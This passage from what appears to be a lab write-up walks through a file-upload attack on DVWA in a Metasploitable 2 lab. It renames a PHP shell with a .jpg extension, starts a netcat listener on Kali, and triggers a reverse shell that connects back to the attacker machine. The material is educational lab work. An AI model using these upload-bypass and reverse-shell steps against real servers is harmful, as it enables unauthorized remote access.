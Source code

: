 **Step 2**: Rename for upload

```bash
mv shell.php shell_monkey.php.jpg
```

**Step 3**: Upload via DVWA Upload vulnerability page

- Once uploaded successfully, log into the Metasploitable terminal:
    ```bash
    cd /var/www/dvwa/hackable/uploads/
    sudo mv shell_monkey.php.jpg shell_monkey.php
    ```

**Step 4**: Prepare `netcat` listener on Kali to catch the Shell Connection

- In Kali terminal:
    ```bash
    nc -lvnp 4444
    ```

**Step 5**: Trigger reverse shell from browser

- Open:
    ```
    http://<metasploitable_ip>/dvwa/hackable/uploads/shell_monkey.php
    ```
- This loaded a PHP reverse shell payload on the Metasploitable 2 server, which executed and told the server to connect back to my Kali machine on port 4444.
    ```
    WARNING: Failed to daemonise. This is quite common and not fatal. Successfully opened reverse shell to 192.168.0.18:4444"
    ```
    - The warning means the shell couldn't run fully in the background ("daemonize"), but the connection still succeeded
    - Screenshot of successfully opened reverse shell:

    ![Successfully opened reverse shell](./screenshots/file-upload-attack/successfully-opened-reverse-shell.jpg)

    - Screenshot of starting `netcat` listener in Kali:

    ![Start listener in Kali](./screenshots/file-upload-attack/start-listener-in-Kali.jpg)
